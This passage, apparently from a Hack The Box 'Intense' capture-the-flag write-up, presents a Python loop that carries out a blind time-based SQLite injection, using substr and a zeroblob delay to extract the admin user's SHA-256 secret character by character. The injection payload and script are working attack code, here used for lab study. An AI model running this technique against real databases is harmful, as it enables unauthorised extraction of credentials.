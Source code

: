 Now we can start the loop:

```python
# Use the sqli to get the secret of user
def get_secret(user="admin"):
    try:
        print(f"[*] Trying to get secret of user {user}...")
        hash = ''
        chars = re.sub(r'[A-Z]', '', hexdigits) # Lower case hex-chars
        while len(hash) < 64: # SHA-256 hash
            for char in chars: # Test char-by-char
                print(f"[~] Trying {char}")
				#indices start at 1??!!
                query = f"' || (SELECT CASE substr((SELECT secret FROM users WHERE username=\"{user}\"),{len(hash)+1},1) WHEN \"{char}\" THEN zeroblob(999999999) ELSE 1 END)); -- -"
                if inject(query): # Valid char found
                    clear(2) # Clear screen
                    hash += char # Add valid char to hash string
                    print(f"[{len(hash)/64*100:0.2f}%] Got part of hash: {hash}")
                    break
                else:
                    clear() # Clear screen
        print(f"{len(hash)/(64)*100:0.2f}% of hash: {hash}")
        return hash
    except Exception as ex:
        print(f"[-] {ex}")
```

After running for a bit, I noticed that only lowercase hex chars are used, so I used regex to remove all uppercase chars from the chars list.

Now if we run the script, we should get the hash of the admin-user:

![Running the exploit script](/assets/htb/Intense/sqli.gif)
